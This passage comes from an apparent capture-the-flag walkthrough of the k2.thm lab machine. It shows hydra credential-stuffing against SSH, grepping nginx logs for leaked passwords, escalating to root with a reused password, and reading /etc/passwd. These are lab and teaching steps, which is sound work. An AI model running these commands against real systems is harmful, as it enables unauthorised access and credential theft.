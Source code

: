 Now, testing them against the SSH service using `hydra`, we find that the credentials for the `james` user work.

```console
$ hydra -C combolist.txt ssh://k2.thm
...
[22][ssh] host: k2.thm   login: james   password: Pw[REDACTED]3!
```

We can use the discovered credentials to obtain a shell as the `james` user via **SSH** and read the user flag.

```console
$ ssh james@k2.thm
...
james@k2:~$ wc -c user.txt
38 user.txt
```

### Shell as root

Looking at our IDs, we see that the user belongs to the `adm` group, which allows us to read most of the logs on the machine.

```console
james@k2:~$ id
uid=1002(james) gid=1002(james) groups=1002(james),4(adm)
```

Checking the `nginx` logs, we find some credentials.

```console
james@k2:/var/log/nginx$ grep -Ri 'pass' .
./access.log.1:10.0.2.51 - - [24/May/2023:22:17:17 +0000] "GET /login?username=rose&password=Rd[REDACTED]3! HTTP/1.1" 200 1356 "http://admin.k2.thm/" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```
{: .wrap }

While testing the password for the `rose` user does not work, we are successful with the `root` user, allowing us to read the root flag.

```console
james@k2:/var/log/nginx$ su - root
Password: 
root@k2:~# id
uid=0(root) gid=0(root) groups=0(root)
root@k2:~# wc -c root.txt
38 root.txt
```

### Post-exploitation

After gaining root access, we first check the `/etc/passwd` file, where we find the full names for the users: `Rose Bud` and `James Bold`.

```
root@k2:~# cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
rose:x:1001:1001:Rose Bud:/home/rose:/bin/bash
james:x:1002:1002:James Bold:/home/james:/bin/bash
```
